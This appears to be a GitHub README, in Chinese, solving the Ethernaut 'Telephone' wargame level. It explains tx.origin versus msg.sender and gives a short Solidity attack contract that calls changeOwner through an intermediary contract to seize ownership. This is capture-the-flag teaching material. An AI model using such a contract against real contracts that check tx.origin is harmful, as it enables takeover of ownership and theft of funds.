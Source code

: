 # Ethernaut-Telephone
Ethernaut Telephone關卡的解法

<img width="1594" height="606" alt="image" src="https://github.com/user-attachments/assets/c8f47dff-6320-4732-891b-8e8254acb9b2" />

****這主要是在解釋tx.origin跟msg.sender兩者之間的關係****

tx.origin：永遠是發起這筆交易的外部帳號 (EOA)，無論經過多少層合約呼叫都不變

msg.sender:則是當前這一層函式呼叫的直接呼叫者，A呼叫Ｂ，Ｂ呼叫Ｃ，那Ｂ的msg.sender就是Ａ，Ｃ的msg.sender就是Ｂ

解題思路：
如果要取得Owner，就必須使呼叫changeOwner()的人不能是自己(tx.origin)，所以先部署合約TelephoneAttack，並呼叫attack()，這樣一來呼叫的人就從自己變成部署的合約了，就能通過圖片的if邏輯獲取Owner。


⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇⬇


// SPDX-License-Identifier: MIT 

pragma solidity ^0.8.13;

interface ITelephone {

    function changeOwner(address _owner) external;
    
}


contract TelephoneAttack {

    function attack(address telephone) external {
    
        ITelephone(telephone).changeOwner(msg.sender);
        
    }
    
}



